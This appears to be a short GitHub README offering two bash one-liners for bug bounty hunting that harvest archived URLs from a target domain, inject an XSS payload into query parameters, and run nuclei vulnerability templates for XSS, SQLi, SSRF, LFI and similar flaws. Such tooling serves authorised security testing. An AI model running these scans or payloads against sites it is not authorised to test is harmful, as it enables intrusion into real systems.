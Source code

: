 ## simple-one-liner
One Liner for Bug Bounty Hunting

```bash
echo "example.com" | waybackurls --fc 200 | urldedupe -s -qs -ne | gf xss | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```

```bash
echo "example.com" | gau --fc 200 | urldedupe -s -qs | gf lfi redirect sqli-error sqli ssrf ssti xss xxe | qsreplace FUZZ | grep FUZZ | nuclei -silent -t ~/nuclei-templates/dast/vulnerabilities -dast
```
